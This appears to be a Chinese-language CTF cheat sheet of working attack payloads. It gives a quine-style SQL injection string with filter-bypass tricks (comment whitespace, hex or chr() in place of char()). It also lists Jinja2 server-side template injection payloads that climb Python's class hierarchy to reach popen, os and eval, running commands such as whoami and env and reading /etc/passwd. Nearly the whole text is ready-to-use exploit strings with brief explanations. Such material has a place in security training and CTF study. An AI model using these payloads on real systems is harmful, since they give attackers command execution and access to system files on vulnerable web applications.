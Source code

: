 //构造
S为`'/**/union/**/select/**/replace(replace('A',char(34),char(39)),char(66),'A')#`
A为`"/**/union/**/select/**/replace(replace("B",char(34),char(39)),char(66),"B")#`

//playload
`1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace("B",char(34),char(39)),char(66),"B")#',char(34),char(39)),char(66),'1"/**/union/**/select/**/replace(replace("B",char(34),char(39)),char(66),"B")#')#`

`1'union/**/select/**/replace(replace('1"union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#`

char被过滤的话还可以用十六机制或者chr()函数

char(34) --> 0x22
char(39) --> 0x27

char(34) --> chr(34)

## ssti jinja2

### 可以利用的类或者函数

#### config

查看配置信息

#### env

`{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('env').read()}}`
可能有非预期

#### popen

`popen()`用于执行系统命令，返回一个文件地址，需要用`read()`来显示文件的内容

#### subprocess.popen

与popen略有不同
`{{"".__class__.__base__.__subclasses__()[485]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}`

#### __import__中的os

`{{"".__class__.__base__.__subclasses__()[80].__init__.__globals__.__import__('os').popen('whoami').read()}}`

#### __builtins__代码执行

```py
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['__import__']('os').popen('whoami').read()}}
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```
